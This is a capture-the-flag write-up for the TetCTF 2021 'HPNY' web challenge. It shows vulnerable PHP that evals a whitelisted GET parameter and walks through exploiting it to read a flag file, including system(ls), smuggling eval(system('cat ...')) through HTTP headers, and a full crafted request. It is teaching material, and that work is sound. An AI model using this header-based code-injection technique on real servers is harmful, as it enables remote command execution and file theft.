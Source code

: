 ### Code:

```php  
<?php

function get_lucky_word() {
    $words = array("Chuc mung nam moi", "gongxifacai", "happy new year!", "bonne année", "Akemashite omedeto gozaimasu", "Seh heh bok mahn ee bahd euh sae yo", "kimochi", "Feliz Año Nuevo", "S novim godom", "Gelukkig Nieuwjaar", "selamat tahun baru", "iniya puthandu nal Vazhthukkal");
    return $words[array_rand($words)];
}

function get_lucky_number() {
    $numb = rand(0,100);
    return strval($numb);
}


if(!isset($_GET["roll"])) {
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[a-z\(\)\_\.]+$/i', $_GET["roll"]);

    if($wl === 0 || strlen($_GET["roll"]) > 50) {
        die("bumbadum badum");
    }
    eval("echo ".$_GET["roll"]."();");
}

?>

```

# Explanation: #  
In above code only parameter is "roll". If parameter is not passed then source
code is shown otherwise parameter is processed.  
## Constraints  
There are some constraints on roll parameter:-  
### 1. Length  
Length should be less than 50 characters.  
### 2. Allowed Characters  
- a-z  
- (  
-  )  
-  _  
-  .

## Target  
Flag is in same directory in file "fl4g_here_but_can_you_get_it_hohoho.php".  
1. We need to list all files in directory  
2. We need to read flag file

## Obstacle  
Roll parameter is too constrained to be used for exploitation. So we need to
find another way to deliver our payload, and then execute using roll
parameter.  
## Failed Attempt  
As same as everyone, I wasted many hours on using system command

We can easily list files using

```?roll=system(ls)```

So our first target of finding file name is completed, But when I tried
reading file using

```?roll=readfile(system(ls))```

it only showed content of index.php, Why?

On [PHP System Page](https://www.php.net/manual/en/function.system.php),
mentioned  
```Function Returns the last line of the command output on success```

So while system(ls) is displaying all files, it only passing last file name to
readfile function. And same is true for other similar functions like exec,
passthru.

## Exploitation:  
So I braked problem in parts and solved like this:-

#### 1. Payload Delivery

Roll parameter was too small for payload, So I used HTTP headers for
delivering payload

```User-Agent: eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'))```

Here, I am reading flag file using cat. cat is called by system function. And
system function is string which is parsed as php code by eval.

#### 2. Reading Payload

So our payload is delivered, now we need to read this.

```getallheaders()``` can be used for reading all headers. But this will
return a array. But if we use implode function like
```implode(getallheaders())```, then it will create a string of all the VALUES
of array as a string. like,

```  
192.46.227.32 eval(system('cat
fl4g_here_but_can_you_get_it_hohoho.php'));text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8en-
US,en;q=0.5gzip, deflate1close11max-age=0

```

So now we have our payload ready. We can execute php code in above string
using eval. So final url will be

```192.46.227.32/?roll=(eval(implode(getallheaders())))```

#### 3. Final step  
Our php code in above string also has other stuff and when eval will try to
execute it will crash. So we should comment out that. How?  
I created two more custom headers, where first one is on top of all header and
had starting of php comment /* and last header I included had ending of php
comment. And I changed payload to close opened comment on start and close on
end. So final request become like this

```  
GET /?roll=(eval(implode(getallheaders()))) HTTP/1.1  
xyz: /*test  
Host: 192.46.227.32  
User-Agent: */ eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'));/*  
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
DNT: 1  
Connection: close  
Upgrade-Insecure-Requests: 1  
Sec-GPC: 1  
abc: tses*/  
```  

Original writeup (https://github.com/hrca-writeups/CTF-
Writeups/blob/master/2021/TetCTF%202021/HPNY.md).